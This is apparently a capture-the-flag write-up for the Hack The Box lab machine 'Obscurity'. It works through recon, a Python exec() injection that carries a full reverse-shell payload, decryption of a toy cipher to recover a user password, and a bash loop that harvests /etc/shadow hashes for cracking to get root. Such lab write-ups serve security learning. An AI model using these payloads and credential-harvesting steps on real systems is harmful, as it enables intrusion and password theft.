

# 📦 HTB - Obscurity


> Obscurity is my first medium box so I was very happy when I got that `root.txt` :D

## TL;DR

Custom Python web server, get source code, get revserse shell, crack user password for custom encryption system, use john to privesc.

## Footholds

To make things easier, I added the box to my `/etc/hosts`.

### Recon

Let's start with nmap to discover the open ports :

```
> nmap -A obscurity.htb -o nmap.out

Nmap scan report for obscurity.htb (10.10.10.168)
    Host is up (0.026s latency).
    Not shown: 996 filtered ports
    PORT     STATE  SERVICE    VERSION
    22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
    |   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
    |_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
    80/tcp   closed http
    8080/tcp open   http-proxy BadHTTPServer
    | fingerprint-strings: 
    |   GetRequest, HTTPOptions: 
    |     HTTP/1.1 200 OK
    |     Date: Fri, 10 Apr 2020 11:14:28
    |     Server: BadHTTPServer
    |     ...
    |_http-server-header: BadHTTPServer
    |_http-title: 0bscura
    ...
```

So we got so far SSH and HTTP server running on the machine.

### Web server

On the port 8080 we can see the web server which indicates that it is hand-made with custom code.


> If you use custom code, you can't have CVE's on it. So your code is 100% secure.


By reading the content of their homepage, we get a good hint : they are hosting the source code on the server. We have to find `SuperSecureServer.py` ont it !


### Finding source code

The easiest way I found on the moment was to fire up Burpsuite and use a directory wordlist.

By making a first request to the webserver, I sent it to Burp's intruder in sniper mode. Using a simple directory wordlist (`common.txt`) I placed the payload's position as `GET /§a§/SuperSecureServer.py`, launched the attack and waited for burp to get a 200 response code.


The source code is at `/develop/SuperSecureServer.py` !


### Source code auditing

By reading the code, I found that during the document serving process, the `exec()` function is called.

```python
def serveDoc(self, path, docRoot):
    path = urllib.parse.unquote(path)
    try:
        info = "output = 'Document: {}'" # Keep the output for later debug
        exec(info.format(path)) # This is how you do string formatting, right? <-- here
        cwd = os.path.dirname(os.path.realpath(__file__))
        docRoot = os.path.join(cwd, docRoot)
        if path == "/":
            path = "/index.html"
```

### Reverse shell

After understanding when the exec was called, I injected a python reverse shell payload. Basically this is a command injection through format string, string which got evaluated right after. The payload we could manipulate was directly the path we GET on the server. My final payload for the reverse shell was :

```
GET /';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This payload works because :

* The first `'` is used to break the string generated by the format string
* Both `;` to inject a new python code between
* The last `'` is to make an empty string with the single quote from the source code, otherwise an error is raised

So I just launched a netcat connexion listenning on my machine, and made a request on the server with the payload to get the shell.


## User

The reverse shell we have is as `www-data`, we need to privesc as a regular user.

```shell
> ls /home
robert
```

We know that user `robert` must be the user we need to privesc as. We need to investigate it's home directory.

```shell
> ls /home/robert
BetterSSH   check.txt   out.txt passwordreminder.txt    SuperSecureCrypt.py ...
```

We got a bunch of files here, some are pretty interesting, especially the Python script.

By examining it, we understand that Robert uses a custom password manager, stores it's "encrypted" password in a file, and tested it's encryption passphrase on a dummy text file.

First thing I did was to BF it's password using the famous rockyou. But it was unsuccessfull, I managed to get something close to it's password, but not the actual password.

After thinking about the encryption and decryption algorithms, I managed to get the real password.

To use the Python script : `python SuperSecureCrypt.py -i infile -k key -o outfile` will "encypt" the content of infile with key into outfile. To decrypt we have to use the `-d` option.

As the encryption and decryption where very simple :

```python
def encrypt(text, key):
    for x in text:
    newChr = chr( (ord(x) + ord(keyChr)) % 255 )
    encrypted += newCrh

def decrypt(text, key):
    for x in text:
    newChr = chr( (ord(x) - ord(keyChr)) % 255 )
    decrypted += newChr
```

The easiest way to get the password was : `python SuperSecureCrypt.py -d -i out.txt -k "$(cat check.txt)" -o pass.txt`

The encryption password was `alexandrovich`.

`python SuperSecureCrypt.py -d -i passwordreminder.txt -k alexandrovich -o robert.txt`

Robert's password was `SecThruObsFTW`, we can SSH as him and get the `user.txt` content.


## Root

We now need to go root. As robert :

```
> sudo -l
User robert may run the following commands on obscure:
(ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

So yeah, we know where to start. We now need to know how to exploit this BetterSSH.py script.

By reading the first lines, we know that it reads the `/etc/shadow` file, and write it's content into a file somewhere in `/tmp/SSH/`. The script prompts for a username and password, if the password's hash does corresponds to the shadow one, it gives a shell as this user.

I started to find a fancy way to monitor the content of the `/tmp/SSH/` folder, but a simple bash script can do anything :

```bash
#!/bin/bash
while true; do
    cat /tmp/SSH/* >> /tmp/.ninja
done
```

I launched the script in background, launched the BetterSSH script too, and read the content of my `/tmp/.ninja` file. We get most of the users' hashes separated by line, but only one matters to us. Root's hash was `$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1`.

Using john the ripper on the hash, we get root's password : `mercedes`. I could have SSH back as root, but there is already a tool for us : `sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py`, entered `root` for user, and `mercedes` for password, we now have a shell as root.




